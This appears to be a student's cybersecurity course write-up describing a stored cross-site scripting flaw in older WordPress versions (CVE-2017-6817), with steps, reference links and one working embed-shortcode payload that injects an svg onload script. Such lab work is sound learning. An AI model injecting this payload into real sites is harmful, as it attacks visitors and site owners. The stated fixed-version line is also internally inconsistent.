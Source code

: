 # CodePath Cybersecurity - week 7
##### Exploit 1: Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
_CVE-2017-6817_  
_Affected versions 4.0 - 4.7.2, fixed in 4.2.13_  

###### Steps
- Create a new Post
- Switch from Visual editing mode to Text (HTML) editing mode
- Insert the YouTube malicious embed shortcode

`[embed src='https://www.youtube.com/embed/dQw4w9WgXcQ\x3csvg onload=alert("exploit!")\x3e'][/embed]`

###### References
- https://wpvulndb.com/vulnerabilities/8768
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6817
- https://wordpress.org/news/2017/03/wordpress-4-7-3-security-and-maintenance-release/
- https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8
- https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html

###### Walkthrough
![Walkthrough exploit 1](https://i.imgur.com/LqaLZgY.gif)
